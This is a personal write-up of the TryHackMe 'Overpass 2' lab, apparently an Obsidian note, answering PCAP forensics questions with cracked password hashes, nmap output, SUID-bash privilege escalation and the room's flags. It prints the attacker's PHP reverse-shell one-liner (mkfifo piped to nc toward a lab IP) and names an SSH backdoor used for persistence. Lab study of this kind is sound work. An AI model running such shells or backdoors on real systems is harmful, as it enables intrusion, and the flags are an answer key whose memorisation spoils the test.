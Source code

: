 Tags:OverPass 2 THM box
When: [[todo 2]]

##Note:

# Questions
- What was the URL of the page they used to upload a reverse shell?
==/development==
- What payload did the attacker use to gain access?
==<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>==
- What password did the attacker use to privesc?
==whenevernoteartinstant==
- How did the attacker establish persistence?
git clone https://github.com/NinjaJc01/ssh-backdoor
- Using the fasttrack wordlist, how many of the system passwords were crackable?
4
What's the default hash for the backdoor?
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

- What's the hardcoded salt for the backdoor?
1c362db832f3f864c8c2fe05f2002a05

- What was the hash that the attacker used? - go back to the PCAP for this!

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

- Crack the hash using rockyou and a cracking tool of your choice. What's the password?

november16
- The attacker defaced the website. What message did they leave as a heading?

 H4ck3d by CooctusClan

- What's the user flag?
thm{d119b4fa8c497ddb0525f7ad200e6567}


- What's the root flag?
thm{d53b2684f169360bb9606c333873144d}



# Creds
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::

paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::

bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::

muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::

szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::

Using John 
james:whenevernoteartinstant:november16
paradox:security3
syzmex:abcd123
bee:secret12
muirland:1qaz2wsx

# Enumeration 
Nmap scan
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)

after checking the Wireshark captured files and following the TCP stream we find that the attacker used /development to upload their payload and it's called payload.php 
![[Pasted image 20210919013318.png]]

Following another TCP stream we find out where is the Netcat Session is and it's in plain text 

![[Pasted image 20210919013638.png]]

then we try to crack the hash the attacker got and the salt from the backdoor software 
password is november16
going into james ssh at port 2222 and password we just found we are in!



# Privesc 
running sudo -l doesn't work cos we don't know james password 
running ls -la find out there is a suid_bash with +s perm e.e 
running it with -p gives us root access 



# Conclusion

- How to analysis a pcap wireshark file and find out how the attack was done   
